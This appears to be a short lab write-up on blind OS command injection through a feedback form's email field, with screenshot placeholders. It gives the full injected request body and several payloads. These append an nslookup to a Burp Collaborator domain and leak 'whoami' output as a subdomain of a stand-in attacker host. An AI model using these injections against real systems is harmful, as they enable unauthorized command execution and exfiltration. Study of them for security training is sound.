




We have Burp Collaborator. We just need to create a payload that performs an nslookup to our Burp Collaborator:
`csrf=VdthmKilhrNNkNxxJYbDD5EkqXyv0KrQ&name=test&email=test%40test.es+%26+nslookup+hzkuydwsvjraxh1ygup9zhujlar1fr3g.oastify.com+%23&subject=test&message=asd`

We can see the request in our collaborator:

We can append a subdomain that is the result of a command (e.g., `whoami`) and get the result of the command as a request. For example, for the `whoami` command:

We get the request to our collaborator with the `whoami` command as a result:

We can also use the following payload:
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``
instead of 
``& nslookup $(whoami).kgji2ohoyw.web-attacker.com &``
